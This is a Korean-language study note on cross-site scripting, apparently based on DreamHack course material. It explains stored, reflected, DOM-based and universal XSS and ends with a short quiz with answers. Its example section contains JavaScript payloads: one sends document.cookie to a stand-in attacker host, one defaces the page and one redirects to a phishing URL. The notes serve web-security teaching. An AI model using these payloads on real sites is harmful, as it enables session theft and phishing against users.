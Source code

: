 # Cross Site Scripting (XSS)

## Cross Site Scripting (XSS)

XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취

**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.

<img src="1.jpg">

## XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.

예를 들어 ``<script>`` 등을  이용해  악성  스크립트를  만들어서  사용자가  실행하게  한다.

XSS  종류는  다양하지만, 여기서는 4가지  정도  언급한다.  

|종류|내용|
|---|-----|
|Stored  XSS|XSS에  사용되는  악성  스크립트가 **서버에  저장**되고  서버의 **응답에  담겨오는** XSS|
|Reflected  XSS|XSS에  사용되는  악성  스크립트가 **URL에  삽입**되고  서버의 **응답에  담겨오는** XSS|
|DOM-based  XSS|XSS에  사용되는  악성  스크립트가 **URL  Fragment에  삽입**되는  XSS|
|Universal  XSS|클라이언트의 **브라우저** 혹은 **브라우저의  플러그인**에서  발생하는  취약점으로 **SOP  정책을  우회**하는  XSS|

<img src="2.jpg">

위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.

<img src="3.jpg">

## XSS 스크립트 예시

아까 적었던 것처럼 ``<script>`` 를  통해  악성  스크립트를  만듭니다.

즉, 자바스크립트를 주로 사용한다.

```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");

// 현재 페이지의 쿠키(return type: string)
document.cookie;

// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);

// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";

// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new  Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

위의 코드는 **쿠키 및 세션 탈취** 공격 코드다.

```html
<script>
// 이용자의 페이지 정보에 접근.
document;

// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

위의 코드는 **페이지 변조** 공격 코드이다.

```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing";

// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

위의 코드는 **위치 이동** 공격 코드다.  

# Basic XSS Lab(개편 전 실습)
## Types of XSS: Wrapup
### Stored XSS

**Stored XSS** : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS(예 : 악성 스크립트가 들어간 게시물, 댓글 등)

<img src="4.jpg">

이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.

<img src="5.jpg">

### Reflected XSS

**Reflected XSS** : 서버가 **악성 스크립트가 담긴 요청을 출력**할 때 발생함(예 : 검색결과가 URL에 포함되는 경우 -> 검색엔진)  
-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생  
--> 이용자들이 악성 링크에 접속하게 유도해야함(**Click Jacking** 또는 **Open Redirect**와 같은 취약점과 연계)

<img src="6.jpg">

다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.

<img src="7.jpg">

그런데, 여기에 스크립트를 넣을 수도 있다.

<img src="8.jpg">

## Basic XSS Lab
**추후에 추가**

# 마치며
- **Cross Site Scripting (XSS)**: 클라이언트 사이드 취약점, 공격자가 **웹 리소스에 악성 스크립트를 삽입**해 이용자의 웹 브라우저에서 해당 **스크립트를 실행**하는 취약점.
- **Stored XSS**: 악성 스크립트가 **서버 내에** 존재, 이용자가 저장된 **악성 스크립트를 조회**할 때 발생
- **Reflected XSS**: 악성 스크립트가 **이용자 요청 내에** 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 **응답을 출력**할 때 발생

# 퀴즈
1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?  
``답 : Reflected XSS``

2. XSS 취약점이 발생하는 곳은?  
``답 : 클라이언트 + 서버``

3. 다음 설명이 말하는 XSS로 올바른 것은?  
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**  
``답 : Stored XSS``